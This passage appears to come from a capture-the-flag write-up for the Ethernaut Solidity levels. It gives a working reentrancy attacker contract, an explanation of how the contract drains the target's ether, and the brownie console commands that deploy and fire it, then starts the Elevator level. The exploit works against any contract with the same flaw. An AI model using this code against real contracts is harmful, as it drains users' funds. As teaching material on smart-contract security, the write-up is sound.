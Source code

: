     interface IReentrance {
      function donate(address _to) external payable;
      function balanceOf(address _who) external view returns (uint balance);
      function withdraw(uint _amount) external;
    }
    
    contract ReentranceAttacker {
    
      IReentrance public instance;
      
      function kill(address payable _instance) public payable{
        require(msg.value == .001 ether, 'msg.value should be .001 ether');
        instance = IReentrance(_instance);

        //donate our .001 ETH to the contract so we have a balance to withdraw
        instance.donate{value: .001 ether}(address(this));

        //call withdraw with amount as our balance in the contract
        instance.withdraw(instance.balanceOf(address(this)));

        //send the stolen eth back to our personal wallet
        payable(msg.sender).transfer(address(this).balance);
      }
    
      receive() external payable{
        instance.withdraw(instance.balanceOf(address(this)));
      }
    }
    
The flow here is:

1. Player calls `kill` with msg.value of .001 ether
2. `kill` calls `donate` on the instance, .001 ether is added to `balances` for our contract
3. `kill` calls `withdraw` with an additional call to `balances` as its `_amount` parameter so we're withdrawing exactly our balance
4. during `withdraw`, ether is sent back to our contract, triggering our `receive` function
5. `receive` makes an additional call to `withdraw` before `balances` is updated, which then sends additional ether, triggering `receive` again and repeating until the contract is drained
6. `kill` sends the stolen ether back to `msg.sender` - our wallet.

Only after the contract has run out of ether does the withdraw function advance to its `balances` update instruction - which is why we're able withdraw more than we deposited.

In the brownie console:

    attacker = ReentranceAttacker.deploy({'from': player})
    attacker.kill(instance,{'from': player, 'value': .001*10**18}) #.001*10**18 is .001 ether converted to wei

That's it, the contract is drained and you can submit the level!

## 12. Elevator

Our goal for this level is to get `top` to equal `true`. We can see that the value to `top` is assigned the result of `building.isLastFloor(floor)` within the `goTo` function. This is our attack vector.
